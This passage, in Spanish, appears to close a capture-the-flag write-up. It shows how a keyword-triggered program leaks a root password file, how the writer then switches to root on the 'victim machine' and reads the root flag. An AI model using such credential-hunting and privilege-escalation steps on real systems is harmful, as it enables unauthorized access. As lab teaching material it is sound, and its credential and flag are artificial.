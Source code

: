 Vemos que si buscamos por la palabra `leersecretpassroot` llamara a la funcion de leer un `.txt` en la carpeta de `root`, por lo que tendremos que hacer lo siguiente en la maquina victima:

```shell
sudo find / -name "leersecretpassroot" 2>/dev/null
```

Info:

```
root:rootpasswordsupersecret
```

Y si ahora hacemos lo siguiente:

```shell
su root
```

Metemos como contraseña `rootpasswordsupersecret` y veremos que seremos `root`, por lo que leeremos la flag de `root`.

> root.txt

```
9866b73304dbe02c58a9ac37ec4c185d
```
